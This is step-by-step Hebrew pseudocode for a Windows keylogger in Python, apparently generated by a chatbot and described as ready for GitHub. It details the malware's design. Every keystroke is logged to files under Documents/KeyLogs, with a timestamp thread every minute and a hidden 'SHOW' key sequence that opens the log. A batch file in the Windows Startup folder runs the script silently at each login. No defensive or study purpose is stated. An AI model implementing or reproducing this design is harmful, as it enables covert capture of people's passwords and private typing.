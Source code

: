 🔹 פסאודו-קוד בעברית עם הזחות מלאה לסקריפט Keylogger:

1. **ייבוא ספריות:**

```pseudo
ייבא את os             # עבודה עם קבצים ותיקיות
ייבא את threading      # מאפשר הרצת פעולות במקביל (thread)
ייבא מ-pynput.keyboard את Listener, Key, KeyCode  # הקשבה ללחיצות מקשים
ייבא את datetime מהמודול datetime  # לקבלת תאריך ושעה
ייבא את time           # לעצירת פעולות לזמן מסוים
ייבא את shutil         # פעולות קבצים - העתקה, מחיקה, העברה
```

2. **יצירת נתיבים ושמות לקבצים:**

```pseudo
צור תיקייה בשם KeyLogs בתיקיית Documents של המשתמש

קבע משתנה now = תאריך ושעה נוכחיים (בפורמט: יום-חודש-שנה-שעה.דקה.שנייה)

קבע:
  filename = קובץ הקלט עם שם לפי התאריך
  Last_listen_filename = קובץ ששומר את הלוג האחרון
  Current_listening_name = קובץ ששומר את הלוג הנוכחי בזמן אמת
  Current_listening = רשימה ריקה של המקשים האחרונים
```

3. **פונקציה: Show\_listening**

```pseudo
אם קובץ Last_listen.txt קיים:
    פתח אותו
אחרת:
    פתח את listening.txt
```

4. **פונקציה: timestemp\_everyminute**

```pseudo
בלולאה אינסופית:
    קבל את התאריך והשעה הנוכחיים
    כתוב אותם לקובץ הלוג הראשי (filename)
    המתן 60 שניות
```

5. **פונקציה: on\_press(key)**

```pseudo
נסה להמיר את המקש לטקסט רגיל
אם לא מצליח → הפוך אותו ל-[KeyName]

כתוב את הטקסט לקובץ filename וגם ל-listening.txt

נסה לקבל את vk (קוד מספרי של המקש)
אם הצליח:
    הוסף את הקוד לרשימה Current_listening
    השאר רק את 4 האחרונים
    אם הרשימה היא בדיוק [83, 72, 79, 87]  #(S,H,O,W)
        הפעל את Show_listening()

אם נלחץ המקש ESC:
    סיים את ההאזנה
```

6. **פונקציה: start\_Thread\_timestemp**

```pseudo
הפעל את timestemp_everyminute בתור thread (שירוץ ברקע)
```

7. **פונקציה: start\_listening**

```pseudo
התחל להאזין למקלדת (כל מקש שנלחץ יפעיל את on_press)
```

8. **פונקציה: file\_organization**

```pseudo
אם קובץ Last_listen.txt קיים → מחק אותו
אם קובץ listening.txt קיים → שנה את שמו ל-Last_listen.txt
```

9. **פונקציה: add\_to\_startup**

```pseudo
צור קובץ run_keylogger.bat בתיקייה KeyLogs
הכנס לתוכו שורת הפעלה: start "" "pythonw" "script.py"

מצא את תיקיית ההפעלה האוטומטית של Windows (Startup)
אם לא קיים שם קובץ bat הזה → העתק אותו לשם
```

10. **פונקציה: main**

```pseudo
הפעל את:
  add_to_startup()
  file_organization()
  start_Thread_timestemp()
  start_listening()
```

11. **הפעלת הקוד בפועל:**

```pseudo
אם זה הקובץ הראשי שמורץ:
    קרא לפונקציה main()
```

✅ הפסאודו-קוד נכתב לפי הסדר, עם הסברים והזחות — מוכן להעלאה ל-GitHub. מומלץ לשמור אותו כקובץ בשם: `keylogger_pseudocode_he.txt`

